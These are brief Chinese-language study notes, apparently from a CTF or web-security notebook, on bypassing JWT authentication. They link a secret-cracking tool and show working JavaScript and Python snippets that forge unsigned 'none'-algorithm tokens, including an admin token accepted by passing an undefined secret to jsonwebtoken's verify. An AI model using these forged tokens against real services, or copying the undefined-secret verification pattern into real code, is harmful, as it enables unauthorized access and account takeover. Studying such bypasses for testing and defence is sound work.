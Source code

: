 - [破解工具](https://github.com/brendan-rius/c-jwt-cracker)
- 可以简单理解为签名后的对象
-
- 不知道 secret，可以通过传入一个 undefined 来关闭验证功能。
	- ```javascript
	  const evil_jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY0NzMzNDY5OH0."
	  const result = jwt.verify(
	  evil_jwt,   // 不包含签名的自定义jwt
	  undefined,  // secret
	  "HS256"     //受害者指定的加密算法
	  );
	  ```
- 也可以通过将签名算法设置为none直接通过
	- ```js
	  const jwt = require('jsonwebtoken');
	  global.secrets = [];
	  var user = {
	      secretid: [],
	      username: '114514',
	      password: '114514',
	      iat: 1693146076
	  }
	  const secret = global.secrets[user.secretid];
	  var token = jwt.sign(user, secret, { algorithm: 'none' });
	  console.log(token);
	  
	  ```
	- ```python
	  import jwt
	  
	  header = {
	      "alg": "none",
	      "typ": "JWT"
	  }
	  
	  payload = {
	      "sub": "user123",
	      "exp": 1624632000  # 设置过期时间
	  }
	  
	  jwt_token = jwt.encode(payload, "", algorithm="none", headers=header)
	  print(jwt_token)
	  ```